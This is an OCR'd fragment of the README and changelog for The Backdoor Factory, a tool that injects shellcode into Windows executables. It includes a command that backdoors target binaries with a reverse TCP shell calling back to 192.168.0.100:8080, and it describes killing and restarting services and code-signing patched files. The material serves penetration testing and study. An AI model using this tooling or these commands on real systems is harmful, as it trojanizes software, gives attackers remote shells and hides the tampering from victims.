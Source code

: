     [*] Code Signing Succeeded



---
###Hunt and backdoor: Injector | Windows Only
    The injector module will look for target executables to backdoor on disk.  It will check to see if you have identified the target as a service, check to see if the process is running, kill the process and/or service, inject the executable with the shellcode, save the original file to either file.exe.old or another suffix of choice, and attempt to restart the process or service.  
    Edit the python dictionary "list_of_targets" in the 'injector' module for targets of your choosing.

    ./backdoor.py -i -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a -u .moocowwow 

---

###Changelog

####01/11/2016

* Fix entry point truncation bug that led to improper recovery in rare instances


####07/04/2016

* Support for dynamic paths in BDFProxy for preprocessor

####06/19/2016

* Added the preprocessor and other optimizations
* The preprocessor allows the user to modify the binary prior to payload injection
* Invoke with the -p flag
* See samples in ./preprocessor/


####12/20/2015

 * Added directory paths to BDF to find certs directory.


####12/18/2015
 * Added PE codesiging support.  You must provide your own codesigning cert. See here: https://github.com/secretsquirrel/the-backdoor-factory#pecodesigning

####11/17/2015

 * Bug fix in rsrc section for onionduke patching and remove of random win32 version value in PE Header

####11/13/2015
  * Added proper truncating of a PE file after signature pointer is cleared in PE header - e.g. proper unsigning.  Resulting in better support for IAT patching

####10/19/2015
  * Fixed bug in IAT directory cave assignment that caused BDF crash
  * Made the feature optional with -A flag

####10/13/2015
   * Changed the Import Table Directory modifications from adding a new section to using an existing code cave
